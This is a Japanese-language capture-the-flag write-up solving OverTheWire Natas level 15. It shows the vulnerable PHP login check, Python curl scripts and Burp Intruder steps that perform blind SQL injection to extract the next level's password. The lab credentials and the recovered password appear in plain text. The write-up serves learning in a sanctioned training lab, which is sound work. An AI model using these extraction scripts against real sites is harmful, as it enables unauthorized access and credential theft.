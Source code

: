 # Natas15
```
Username: natas15
Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
URL:      http://natas15.natas.labs.overthewire.org
```
UsernameだけでNatas14と同じくSQLインジェクションが使えると思うが違う。  
とりあえず`View sourcecode`
```
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
```

Usernameを入力して、そのユーザーが存在するか否かを判定している。　　
次のLevelのnatas16を入力するとThis user exists.(このユーザーは存在する)と返される。　　
それ以外だとThis user doesn't exist.(存在しません)と返される。　　

natas16の後にパスワードを判定する処理を行わせて「その文字が使われているか？」を判定する。  
SQLのLIKE BINARYを使用して判定を行う。(binaryは大小文字の判定で必須)  

`natas16" and password like binary "%a%を送るとThis user exists.`が帰ってくる。  
つまり、パスワードの中にaという文字が使われているのがわかる。  

しかし
```
abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
```
の全てを試すのはしんどいので、

> ## 方法1: Pythonを使用する
```
import os

payload = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
access = "curl 'http://natas15.natas.labs.overthewire.org/index.php'   -H 'Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA=='   -H 'Connection: keep-alive'   -H 'Origin: http://natas15.natas.labs.overthewire.org'   -H 'Referer: http://natas15.natas.labs.overthewire.org/index.php?debug'   -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36'   -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7'   -H 'accept-language: en-US,en;q=0.9'   -H 'cache-control: max-age=0'   -H 'content-type: application/x-www-form-urlencoded'   -H 'dnt: 1'   -H 'sec-gpc: 1'   -H 'upgrade-insecure-requests: 1'  --insecure"
for char in payload:
    password = "--data-raw 'username=natas16%22AND+password+LIKE+BINARY+%22%25{}%25%' ".format(char)
    print(password)
    full = access + " " + password

    stuff = os.popen(full).read()
    if "This user exists." in stuff:
        print(char)
```

全ての文字を試して、This user exists.と帰ってきたら単語が表示されるスクリプトである。  
(作成に4時間かかりましたPython初心者)

結果、
`adfgijklqruADEHOPRTVZ23579`が使われているのがわかる。


> ## 方法２Burp Suiteを用いてPayloadをセットし攻撃
`natas16" and password like binary "%a%`を入力した状態でInterceptする。  
そしてaの部分を選択して、`Actiono`から`Send to Intruder`を選択し、Intruderの目標としてセットする。 

Intruderのタブに移動し、Payloadにa~9までをセットし、右上のStart Attackで攻撃を開始する。  

結果画面に表示されている文字列の長さがLengthに表示される。  
試しに一つ選択し、下のResponeからHTMLを読むと、今回は「1104」がThis user exists.の長さだとわかる。  

よって、Lengthが1104の`adfgijklqruADEHOPRTVZ23579`がパスワードの文字として使われているのがわかる。  


次に、この文字を総当たりでアタックさせ、正しい並び、出現回数を突き止める。

今の所、全てのパスワードが32文字なので、32文字を上限として、「全ての文字が１度は使用される」かつ、「32文字」で生成するようにプログラムを変更する。

しかし、総当たりのパターン数は32の32乗あり、先に全て生成してからだとメモリが約1.58 x 10^36 GB必要という悲惨な状況になる。  


だからといい、ループ内で生成してそれを即座に使用しても、32の32乗のパターンを検証するのは、年単位となる(普通にDos攻撃である)ので、もっと効率の良い方法で検証する必要がある。

そこで、文字「a」を基準点とし、aの右に追加→検証→合っていたらその右に追加とやっていき、右に何を入れても合わない(答えの右端に来た)場合は左に追加するようにした。  
↓僕が書いたコード
```
import os

payload = "adfgijklqruADEHOPRTVZ23579"
access = "curl 'http://natas15.natas.labs.overthewire.org/index.php'   -H 'Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA=='   -H 'Connection: keep-alive'   -H 'Origin: http://natas15.natas.labs.overthewire.org'   -H 'Referer: http://natas15.natas.labs.overthewire.org/index.php?debug'   -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36'   -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7'   -H 'accept-language: en-US,en;q=0.9'   -H 'cache-control: max-age=0'   -H 'content-type: application/x-www-form-urlencoded'   -H 'dnt: 1'   -H 'sec-gpc: 1'   -H 'upgrade-insecure-requests: 1'  --insecure"

password = ""
tried_right = False
while len(password) < 32:
    found = False
    for char in payload:
        if not tried_right:
            test_password = password + char
        else:
            test_password = char + password
        command = "--data-raw 'username=natas16%22AND+password+LIKE+BINARY+%22%25{}%25%' ".format(test_password)
        full_command = access + " " + command
        response = os.popen(full_command).read()
        print(test_password)
        if "This user exists." in response:
            password = test_password
            print("Testing character:", char)
            found = True
            break
    if not found:
        print("Failed to find next character.")
        if not tried_right:
            tried_right = True
        else:
            password = payload[0] + password

print("Generated password:", password)
```

↓メンター様提供
```
import os
foo = "curl 'http://natas15.natas.labs.overthewire.org/index.php'   -H 'Authorization: Basic bmF0YXMxNTpTZHFJcUJzRmN6M3lvdGxOWUVyWlNad2Jsa20wbHJ2eA=='   -H 'Connection: keep-alive'   -H 'Origin: http://natas15.natas.labs.overthewire.org'   -H 'Referer: http://natas15.natas.labs.overthewire.org/index.php?debug'   -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36'   -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7'   -H 'accept-language: en-US,en;q=0.9'   -H 'cache-control: max-age=0'   -H 'content-type: application/x-www-form-urlencoded'   -H 'dnt: 1'   -H 'sec-gpc: 1'   -H 'upgrade-insecure-requests: 1'   --data-raw 'username=natas16%22AND+password+LIKE+BINARY%22{0}%25'   --insecure"
guess = ""
alphanumeric = "1234567890ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz"
while True:
    finished = True
    for char in alphanumeric:
        guess += char
        print("guessing", guess)
        result = os.popen(foo.format(guess)).read()
        if ("This user exists." not in result):
            guess = guess[:-1]
        else:
            finished = False
            continue
    if finished:
        print(guess)
        break
```

少し時間がかかるが、結果を得ることができる。　  
```
hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```